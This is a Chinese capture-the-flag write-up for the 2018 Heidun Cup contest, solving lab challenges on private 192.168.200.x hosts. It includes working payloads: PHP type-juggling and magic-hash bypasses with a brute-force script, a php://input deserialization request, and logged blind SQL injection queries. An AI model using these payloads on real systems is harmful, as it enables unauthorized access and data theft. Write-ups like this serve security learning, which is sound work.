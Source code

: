 2018/9/16  福师大黑盾杯

![1537107338208](images/1537107338208.png)

# 信息泄露+代码审计

svn泄露源码：http://192.168.200.200/web/codeaudit/.svn/text-base/index.php.svn-base.txt 

```php
<?php
error_reporting(0);
$user = $_COOKIE['user'];
$code = $_GET['code']?(int)$_GET['code']:'';
if($user == 'admin' && !empty($code)) {
	$hex = (int)$code;
	if(($hex ^ 6789) === 0xCDEF) {
		require("flag.php");
		echo $flag;
		exit();
	}	
echo "ȱ��Ӧ�еĲ���,��û��Ȩ�޲鿴������";
?>
```

`GET` 请求`code=55146` ，  请求头添加`Cookie: user=admin;` 。

`flag{a737c5c5b759c3705c8100accf65b5e4}` 

# 最好的语言

```php
<?php 
show_source(__FILE__); 
$a=0; 
$b=0; 
$c=0; 
$d=0; 
if (isset($_GET['x1'])) //$x1=0;=>$a=1;
{ 
        $x1 = $_GET['x1']; 
        $x1=="1"?die("ha?"):NULL; 
        switch ($x1) 
        { 
        case 0: 
        case 1: 
                $a=1; 
                break; 
        } 
} 
$x2=(array)json_decode(@$_GET['x2']); 
//$x2=json_encode(['x21'=>'2018hello','x22'=>[[],0]]) ;
//string(32) "{"x21":"2018hello","x22":[[],0]}"
if(is_array($x2)){ 
    is_numeric(@$x2["x21"])?die("ha?"):NULL; 
    if(@$x2["x21"]){ 
        ($x2["x21"]>2017)?$b=1:NULL; 
    } 
    if(is_array(@$x2["x22"])){ 
        if(count($x2["x22"])!==2 OR !is_array($x2["x22"][0])) die("ha?"); 
        $p = array_search("XIPU", $x2["x22"]); 
        //array_search — 在数组中搜索给定的值，如果成功则返回相应的键名 
        //mixed array_search( mixed $needle, array $haystack[, bool $strict = false] )
        //第三个参数决定在搜索时是否比较类型，默认不比较，也是这里能够绕过的原因。
        //var_dump(array_search('XIPU', array("0","1",0)));//int(2)
        //0==‘XIPU’为真，搜索到0值的下标为2
        $p===false?die("ha?"):NULL; 
        foreach($x2["x22"] as $key=>$val){ 
            $val==="XIPU"?die("ha?"):NULL; 
        } 
        $c=1; 
} 
} 
$x3 = $_GET['x3']; 
if ($x3 != '15562') { 
    if (strstr($x3, 'XIPU')) { 
        if (substr(md5($x3),8,16) == substr(md5('15562'),8,16)) { 
            //两个符合正则  /0e\d+/  的字符串弱相等。
            // 爆破见下方python代码
            $d=1; 
        } 
    } 
} 
if($a && $b && $c && $d){ 
    include "flag.php"; 
    echo $flag; 
} 
?>
```

```python
def brute():
    for a in range(0x20, 0x7f):
        for b in range(0x20, 0x7f):
            for c in range(0x20, 0x7f):
                    x = chr(a) + chr(b) + chr(c)+s
                    mm=md5(x.encode('UTF-8')).hexdigest()
                    flag=1
                    for i in mm[10:24]:
                        if i not in '0123456789':
                            flag=0
                            break
                    if flag and mm[8:10]=='0e':
                        print(x)

brute()
# kN[XIPU
# v=|XIPU
# y'wXIPU
# }MOXIPU
# ~VhXIPU
## http://192.168.200.200/web/bestlanguage/?x1=0&x2={%22x21%22:%222018hello%22,%22x22%22:[[],0]}&x3=~VhXIPU
## flag{510ea2879fa29d0d618b1f55350965c3}
```

# the user is admin

和 bugku 平台某个题目原理相似，可以参考 [该题](https://findneo.github.io/180406BugkuWriteup/#welcome-to-bugkuctf) ，不赘述。

```php
/web/theuserisadmin/?file=class.php&user=php://input&pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}

post:the user is admin
    
//flag{078d8dd8023d5716a11780adf344dfd2}
```

# ccgs

![1537109403700](images/1537109403700.png)

```python
binwalk -e sgcc.png
cat secret.txt | base64 -d | base64 -d > final.png
//原本用notepad++解码base64，然后拷贝到winhex不成功。后来用这么一句话解决了，很舒服
//Linux大法好 \o/
```

![1537070199581](images/1537070199581.png)

# 注入日志分析

**author: [Mads](https://madsome.one/) **  

给了一个日志文件，`file data.log`得到是一个文本文件，直接打开，前几行是

```
#Software: Microsoft Internet Information Services 6.0
#Version: 1.0
#Date: 2015-10-21 09:16:34
```

猜测是IIS服务器记录的流量日志， 分析前几行

```
2015-10-21 09:16:34 W3SVC1 192.168.1.135 GET /index.htm - 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 200 0 0
2015-10-21 09:16:34 W3SVC1 192.168.1.135 GET /favicon.ico - 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 404 0 2
2015-10-21 09:16:36 W3SVC1 192.168.1.135 GET /show.asp id=2 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 200 0 0
2015-10-21 09:25:01 W3SVC1 192.168.1.135 GET /show.asp id=2%27|17|80040e14|字符串_''_之前有未闭合的引号。 80 - 192.168.1.101 Mozilla/5.0+(Macintosh;+Intel+Mac+OS+X+10.10;+rv:41.0)+Gecko/20100101+Firefox/41.0 500 0 0
```

可以看到就是一条条的HTTP请求，并且后面跟着状态码。继续浏览，看到`id`字段出现一些`SQL`的关键字，那么可以想到这记录的就是`sqlmap`(或许)的注入流量分析。思路就是找到关键的注入请求，文件很大，我们可以搜索`flag`试试，找到关键的请求如下

```
...
2015-10-21 09:32:35 W3SVC1 192.168.1.135 GET /show.asp id=2%20AND%20UNICODE%28SUBSTRING%28%28SELECT%20ISNULL%28CAST%28LTRIM%28STR%28COUNT%28DISTINCT%28theflag%29%29%29%29%20AS%20NVARCHAR%284000%29%29%2CCHAR%2832%29%29%20FROM%20tourdata.dbo.news%29%2C1%2C1%29%29%3E51|18|800a0bcd|BOF_或_EOF_中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。 80 - 192.168.1.101 Mozilla/5.0+(Windows;+U;+Windows+NT+6.0;+en-US;+rv:1.9.1b4)+Gecko/20090423+Firefox/3.5b4+GTB5+(.NET+CLR+3.5.30729) 500 0 0
2015-10-21 09:32:35 W3SVC1 192.168.1.135 GET /show.asp id=2%20AND%20UNICODE%28SUBSTRING%28%28SELECT%20ISNULL%28CAST%28LTRIM%28STR%28COUNT%28DISTINCT%28theflag%29%29%29%29%20AS%20NVARCHAR%284000%29%29%2CCHAR%2832%29%29%20FROM%20tourdata.dbo.news%29%2C1%2C1%29%29%3E48 80 - 192.168.1.101 Mozilla/5.0+(Windows;+U;+Windows+NT+6.0;+en-US;+rv:1.9.1b4)+Gecko/20090423+Firefox/3.5b4+GTB5+(.NET+CLR+3.5.30729) 200 0 0
...
```

可以利用文本编辑器如`sublime text 3`的`ctrl+H`的替换功能， 将关键流量进行精简并`urldecode`利于分析(截取两个代表性请求)

```
id=2 AND UNICODE(SUBSTRING((SELECT ISNULL(CAST(LTRIM(STR(COUNT(DISTINCT(theflag)))) AS NVARCHAR(4000)),CHAR(32)) FROM tourdata.dbo.news),1,1))>51|18|800a0bcd|BOF_或_EOF_中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。 500 0 0
id=2 AND UNICODE(SUBSTRING((SELECT ISNULL(CAST(LTRIM(STR(COUNT(DISTINCT(theflag)))) AS NVARCHAR(4000)),CHAR(32)) FROM tourdata.dbo.news),1,1))>48 80 200 0 0
```

可以看到这里是二分法盲注的HTTP请求，现在思路很明确了， 从`SUBSTRING(.*, 1, 1)`开始找，并且只要看最后几条的注入请求就可以判断出字符是多少。 比如`SUBSTRING(.*, 1, 1) > 48`的状态码是`200`，`SUBSTRING(.*, 1, 1) > 49`的状态码是`500`，那其实就可以确定字符的ascii码是49。就这样就能得到`theflag`的值。

# brightstar

[列移位密码](https://ctf-wiki.github.io/ctf-wiki/crypto/classical/others/#_9) 

# 这是啥呀

base32编码

# 下午

[CMSeeK](https://github.com/Tuhinshubhra/CMSeeK) 扫出配置文件 http://192.168.200.202//configuration.php.txt 

底部有flag: `flag{0b58f603ff55c0c190502b44b4ffbf2c}`  

此外一些没进一步利用上的信息和部分题目的附件放在[GiIthub](https://github.com/findneo/ctfgodown/blob/master/20180916heidun/) 上，有兴趣可移步查看。